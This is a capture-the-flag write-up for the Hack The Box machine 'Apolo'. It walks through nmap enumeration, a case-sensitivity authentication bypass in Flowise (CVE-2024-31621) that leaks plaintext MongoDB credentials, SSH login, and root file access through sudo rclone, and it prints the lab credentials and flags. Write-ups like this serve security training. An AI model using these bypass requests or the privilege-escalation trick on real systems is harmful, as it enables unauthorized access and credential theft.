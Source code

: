 ![](assets/images/banner.png)


<font size="10">Apolo</font>
15<sup>th</sup> December 2024

### Difficulty:

`Very Easy`

### Flags:

User: `HTB{llm_ex9l01t_4_RC3}`

Root: `HTB{cl0n3_rc3_f1l3}`

# Enumeration
Using `curl`, I probed the IP address `10.129.231.24` and observed a redirection to `apolo.htb`:
```
seclzi@anonymous:~$ curl http://10.129.231.24 -v
*   Trying 10.129.231.24:80...
* Connected to 10.129.231.24 (10.129.231.24) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.129.231.24
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Moved Temporarily
< Server: nginx/1.18.0 (Ubuntu)
< Date: Mon, 16 Dec 2024 09:59:00 GMT
< Content-Type: text/html
< Content-Length: 154
< Connection: keep-alive
< Location: http://apolo.htb/
< 
<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
* Connection #0 to host 10.129.231.24 left intact
```
The server responded with a **302 Found** status, redirecting me to `apolo.htb`. To proceed, I added the domain `apolo.htb` to the `/etc/hosts` file for local resolution.

#### Nmap Scan
Next, I conducted a detailed scan using `nmap`:
```
seclzi@anonymous:~$ sudo nmap -sC -sV -sS apolo.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-16 17:06 WIB
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 17:07 (0:00:06 remaining)
Nmap scan report for apolo.htb (10.129.231.24)
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Apolo
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.90 seconds
```

The scan revealed two open ports:

- **Port 22 (SSH):** OpenSSH 8.2p1
- **Port 80 (HTTP):** Nginx 1.18.0 (Ubuntu)

#### Subdomain Discovery

Examining the web page's source code, I found a subdomain `ai.apolo.htb`. To access it, I added this subdomain to the `/etc/hosts` file.

Upon visiting `ai.apolo.htb`, I gathered the following details:

- The subdomain is powered by **FlowiseAI**, a platform with a known vulnerability.
- Access to the AI interface requires login credentials.

---

![](assets/images/20241216171139.png)

![](assets/images/20241216171721.png)
#### Observations

The initial enumeration uncovered two critical pieces of information:

1. **Vulnerability in FlowiseAI:** A known authentication bypass vulnerability (CVE-2024-31621) could potentially be exploited.
2. **Host Configuration:** The server is running on an Ubuntu Linux system with services accessible through SSH and HTTP.

These findings set the stage for further exploitation of the FlowiseAI platform.
# Foothold

![](assets/images/20241216172037.png)
While researching Flowise, I discovered that versions <= 1.6.5 are vulnerable to a known issue listed as `CVE-2024-31621`.
### CVE-2024-31621: Flowise 1.6.5 - Authentication Bypass Vulnerability

#### **Overview**
Flowise version <= 1.6.5 is vulnerable to an **authentication bypass vulnerability** due to improper handling of **case sensitivity** in the authentication middleware.

---

### **Vulnerability Description**
The vulnerability lies in the following code snippet:

```javascript
this.app.use((req, res, next) => {
    if (req.url.includes('/api/v1/')) {
        whitelistURLs.some((url) => req.url.includes(url)) ?
        next() : basicAuthMiddleware(req, res, next)
    } else next()
});
```
### **Logic Flaw**
- The middleware checks if the URL contains `/api/v1/` (in lowercase) to enforce authentication, except for specific **whitelisted endpoints**.
- This check is **case-sensitive**, meaning uppercase variations of the URL (e.g., `/API/V1` or `/Api/v1`) bypass the authentication middleware.

### **EXPLOIT PoC**
I exploited this vulnerability by targeting the `/Api/v1/credentials` endpoint:
```
seclzi@anonymous:~$ curl http://ai.apolo.htb/Api/v1/credentials
```
**Output:**
```
[{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z"}]
```
The endpoint revealed a credentials ID. Next, I accessed the credentials directly using the extracted ID:
`seclzi@anonymous:~$ curl http://ai.apolo.htb/Api/v1/credentials/6cfda83a-b055-4fd8-a040-57e5f1dae2eb`
**Output:**
`{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z","plainDataObj":{"mongoDBConnectUrl":"mongodb+srv://lewis:C0mpl3xi3Ty!_W1n3@cluster0.mongodb.net/myDatabase?retryWrites=true&w=majority"}}`

---

### **Accessing the Shell**

The `mongoDBConnectUrl` revealed the username `lewis` and password `C0mpl3xi3Ty!_W1n3`. I used these credentials to attempt SSH access.
![](assets/images/20241216173546.png)
Bingo, we get the user !!!
# Lateral Movement
After gaining access to the user `lewis`, I enumerated their `sudo` privileges using `sudo -l` and discovered the following:

```
lewis@apolo:~$ sudo -l
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```

This indicated that `lewis` could execute the `rclone` command as root without a password. I leveraged this privilege to copy the `root.txt` flag from the `/root/` directory into my accessible `/home/lewis/` directory.

#### Exploitation Steps:

1. Used the following command to copy the `root.txt` file:
```
	lewis@apolo:~$ sudo rclone copy /root/root.txt /home/lewis/root.txt 
	
	2024/12/16 10:36:49 NOTICE: Config file "/root/.config/rclone/rclone.conf" not found - using defaults
```

2. Verified the presence of the `root.txt` file in my home directory:
    
```
	lewis@apolo:~$ ls -la
	total 32
	drwxr-xr-x 4 lewis lewis 4096 Dec 16 10:36 .
	drwxr-xr-x 3 root  root  4096 Oct 28 11:34 ..
	lrwxrwxrwx 1 root  root     9 Dec  4 07:17 .bash_history -> /dev/null
	-rw-r--r-- 1 lewis lewis  220 Oct 28 11:34 .bash_logout
	-rw-r--r-- 1 lewis lewis 3771 Oct 28 11:34 .bashrc
	drwx------ 2 lewis lewis 4096 Nov 14 07:33 .cache
	-rw-r--r-- 1 lewis lewis  807 Oct 28 11:34 .profile
	drwxr-xr-x 2 root  root  4096 Dec 16 10:36 root.txt
	-rw-r----- 1 root  lewis   23 Nov 21 08:54 user.txt
```

    
3. Finally, I read the contents of the flag:
    
    ```
	lewis@apolo:~$ cat root.txt/root.txt && cat user.txt 
	HTB{cl0n3_rc3_f1l3}
	HTB{llm_ex9l01t_4_RC3}
	```
    

Bingo! The `root.txt` and `user.txt` flag was successfully retrieved.
